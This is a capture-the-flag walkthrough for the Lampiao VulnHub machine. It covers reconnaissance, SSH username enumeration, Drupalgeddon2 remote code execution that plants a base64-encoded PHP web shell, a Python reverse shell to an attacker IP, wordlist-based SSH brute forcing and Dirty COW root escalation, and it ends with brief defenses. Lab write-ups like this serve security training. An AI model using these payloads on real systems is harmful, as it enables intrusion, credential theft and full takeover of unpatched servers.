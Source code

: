 ## Reconnaissance

Discover the IP using arp-scan <br>
```
$ arp-scan -l -I en1 -v
Interface: en1, datalink type: EN10MB (Ethernet)
Starting arp-scan 1.9 with 256 hosts (http://www.nta-monitor.com/tools/arp-scan/)
192.168.0.105	08:00:27:e5:04:1a	CADMUS COMPUTER SYSTEMS
```

Check the services/ports exposed using nmap

```
PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.7 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http?   syn-ack
1898/tcp open  http    syn-ack Apache httpd 2.4.7 ((Ubuntu))
|_http-generator: Drupal 7 (http://drupal.org)
| http-robots.txt: 36 disallowed entries
| /user/register/ /user/password/ /user/login/ /user/logout/ /?q=admin/
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt
```

From the generator header, we can see that the application is running on Drupal and version probably 7 <br>
Also, there is an interesting file ```CHANGELOG.txt``` which exposes the accurate version used under 7.x

```
Drupal 7.54, 2017-02-01
-----------------------
- Modules are now able to define theme engines (API addition:
  https://www.drupal.org/node/2826480).
```

On accessing the Drupal site, we can see that the there are two articles written by two different users ```tiago``` and ```Eder``` which might be helpful if we bruteforce SSH service. 

<p align="center">
  <img src="https://github.com/gameFace22/vulnhub-walkthrough/blob/master/images/username-lamp.png">
</p>

Recently there was an [exploit](https://www.exploit-db.com/exploits/45233/) released for OpenSSH 2.3 < 7.7 which checks if the username is valid or not. We can use that to verify if these two are valid and bruteforce if needed. 

```
$  python 45233.py --port 22 --username Eder 192.168.0.107
Eder is not a valid user!
$ python 45233.py --port 22 --username tiago 192.168.0.107
tiago is a valid user!
```

## Exploitation

### Using Drupal 

Now that we have figured the exact version, let's check if there are any exploits available. 

From [CVE-2018-7600-Drupal-RCE](https://github.com/g0rx/CVE-2018-7600-Drupal-RCE) and [Druppalgeddon2](https://github.com/dreadlocked/Drupalgeddon2), we can see that the Drupal version 7.54 is vulnerable to RCE.

```
[*] Testing: Code Execution   (Method: name)
[v] HTTP - URL : http://192.168.0.105:1898/?q=user/password&name[%23post_render][]=passthru&name[%23type]=markup&name[%23markup]=echo XMVRLQYC
[+] Result : XMVRLQYC
[v] HTTP - URL : http://192.168.0.105:1898/?q=user/password&name[%23post_render][]=passthru&name[%23type]=markup&name[%23markup]=echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee lampioaa.php
```

Luckily the exploit which we ran, automatically creates a shell and prompts us with a jailed environment with a lot of restrictions.

We can get a reverse shell using Python with ```python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.0.104",13337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'``` 

Reverse shells generally don't have tty enabled and we need to upgrade our shell so that we can run commands like `sudo` `su` `ssh`

To enable tty on a jailed shell, we can run, ```python -c 'import pty; pty.spawn("/bin/sh")'```

<p align="center">
  <img src="https://github.com/gameFace22/vulnhub-walkthrough/blob/master/images/tty-no-tty.png">
</p>

### Using SSH

Since we know that ```tiago``` is a valid user name for SSH. We can run a bruteforce on the SSH server to check if it uses a weak password. 

Running [rockyou wordlist](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Leaked-Databases/rockyou-75.txt) didn't find any valid passwords. Let us try one more time by generating wordlists using the article written by tiago. 

```
$ ./cewl.rb -d 2 -w lampioa.txt http://192.168.0.107:1898/\?q\=node/1
CeWL 5.4.3 (Arkanoid) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
```
This generates a wordlist of 835 unique passwords. On bruteforcing, we get a valid password Virgulino for the user tiago.

<p align="center">
  <img src="https://github.com/gameFace22/vulnhub-walkthrough/blob/master/images/success-brute.png">
</p>


## Privilege Escalation

Now that we have shell access, we need to escalate this to ```root``` to read the flag. 
Let us run ```linux-exploit-suggester``` to check if the kernel has any publicly available exploits. 

```
www-data@lampiao:/tmp$ wget --quiet https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O les.sh && chmod +x les.sh && ./les.sh
Available information:
Kernel version: 4.4.0
Architecture: i686
<snipped>
Possible Exploits:
[+] [CVE-2016-5195] dirtycow 2
   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   Tags: debian=7|8,RHEL=5|6|7,[ ubuntu=14.04|12.04 ],ubuntu=10.04{kernel:2.6.32-21-generic},ubuntu=16.04{kernel:4.4.0-21-generic}
   Download URL: https://www.exploit-db.com/download/40839
   ext-url: https://www.exploit-db.com/download/40847.cpp
 <snipped>
 ```
 
Let us pull the exploit and try it. It is important that we compile with the specified flags else we might get warnings, errors during compilation time. 

Running the dcow exploit, rewrites the ```root``` password to ```dirtyCowFun``` in the ```/etc/passwd``` file
We can ssh as the root user with the modified password. 

<p align="center">
  <img src="https://github.com/gameFace22/vulnhub-walkthrough/blob/master/images/root-lamp.png">
</p>

## Defense 

[1] Firewall/IDS/IPS rule to detect signature of druppalgeddon and block it. <br>
[2] Disable access to sensitive files like CHANGELOG.txt. <br>
[3] Limit the ACL for uploading, executing files in the OS level or Server level. <br>
[4] Implement services like fail2ban to prevent SSH bruteforce. 

## References 

[1] https://netsec.ws/?p=337 <br>
[2] https://highon.coffee/blog/reverse-shell-cheat-sheet/#python-reverse-shell
